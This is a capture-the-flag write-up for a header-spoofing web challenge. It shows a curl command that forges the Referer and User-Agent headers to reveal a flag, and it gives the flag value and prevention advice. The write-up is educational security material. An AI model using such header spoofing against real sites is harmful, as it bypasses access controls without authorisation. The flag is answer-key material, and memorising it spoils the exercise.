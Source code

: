 # Header Spoofing

## 🏴 Flag

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## 📌 Extract

Page: [http://{IP}/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f](http://{ip}}/?page=survey)

In the source code, there are hints to get the flag.

```jsx
<!--You must come from : "https://www.nsa.gov/".--> 
<!--Let's use this browser : "ft_bornToSec". It will help you a lot.-→
```

We just have to change the request header while going into that url.

The first one is the referer, and the second one is the User-Agent

```jsx
curl -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" "[http://{IP}/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f](http://10.11.248.209/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f)" | grep flag
```

## **🎯 Use**

This vulnerability allows attackers to manipulate HTTP headers to deceive the server into trusting a request. Without proper validation, they can:

- **Bypass security checks** by spoofing trusted referrers or user agents.
- **Access restricted content** by mimicking legitimate requests.
- **Exploit trust relationships** between systems to gain unauthorized access.
- **Perform actions** under the guise of a trusted entity.

## **🔒 Prevention**

1. **Validate Headers:** Always validate and sanitize HTTP headers to ensure they come from trusted sources.
2. **Use Secure Tokens:** Implement secure tokens or signatures to verify the authenticity of requests.
3. **Enforce Strict Policies:** Use strict security policies to limit access based on headers.
4. **Monitor and Log:** Regularly monitor and log header data to detect and respond to suspicious activities.
5. **Limit Trust:** Avoid relying solely on headers for critical security decisions.